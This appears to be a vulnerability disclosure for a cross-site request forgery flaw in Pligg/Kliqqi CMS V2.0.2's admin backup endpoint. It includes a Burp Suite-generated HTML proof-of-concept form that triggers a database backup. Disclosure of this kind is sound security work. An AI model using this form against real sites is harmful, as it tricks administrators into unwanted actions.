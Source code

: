
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_backup.php?dobackup=database

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_backup.php?dobackup=database" method="POST">
      <input type="hidden" name="dobackup" value="database" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

